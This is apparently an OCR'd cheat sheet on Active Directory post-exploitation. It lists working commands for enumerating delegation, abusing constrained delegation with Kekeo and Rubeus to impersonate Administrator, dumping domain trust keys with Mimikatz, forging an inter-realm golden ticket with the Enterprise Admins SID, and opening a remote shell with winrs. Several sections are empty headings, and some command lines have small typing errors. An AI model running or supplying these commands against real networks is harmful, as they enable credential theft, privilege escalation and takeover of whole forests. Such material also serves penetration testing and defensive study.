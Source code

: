 # 4º Beyond Post Exploitation
## 4.1º Unconstrained Delegation
* Discover domain computers which have unconstrained delegation:
~~~~c
Get-DomainComputer -UnConstrained
~~~~
## 4.2º Constrained Delegation
* Enumerate Users and computers with constrained delegation enabled
~~~~c
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
~~~~
### Abusing with Kekeo
1º Request a TGT with kekeo
~~~~c
tgt::ask /user:<UserName> /domain:<Domain's FQDN> /rc4:<hashedPasswordOfTheUser>
~~~~
2º Request a TGS using the tgt previously requested
~~~~c
tgs:s4u /tgt:TGTICKET /user:USER /service:SERVICE/DOMAIN
~~~~
### Abusing with rubeus
1º Request TGT and TGS in a single command using Rubeus
~~~~c
Rubeus.exe s4u /user:USER /aes256:AES256 /impersonateuser:Administrator/msdsspn:SERVICE/DOMAIN /ptt
~~~~
## 4.3 RBCD

## 4.4 AD CS
## 4.5 Trust Abuse MSSQL
## 4.6 Trust Abuse / Cross trusts
## 4.7 Forest Abuse / Cross Forest
1º Dump the trust Key
~~~~c
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"
~~~~
2º Forge a inter-realm TGT using the Golden Ticket attack
~~~~c
Invoke-Mimikatz -Command '"kerberos::golden /user:OURUSER /domain:<OurDomain> /sid:
<OurDomainSID> /sids:<DomainSID>-519 /krbtgt:<krbthash> /ptt"'
~~~~
3º Verify Connectivity
~~~~c
gwmi -class win32_operatingsystem -ComputerName DOMAIN

winrs -r:DOMAIN-MACHINE cmd
~~~~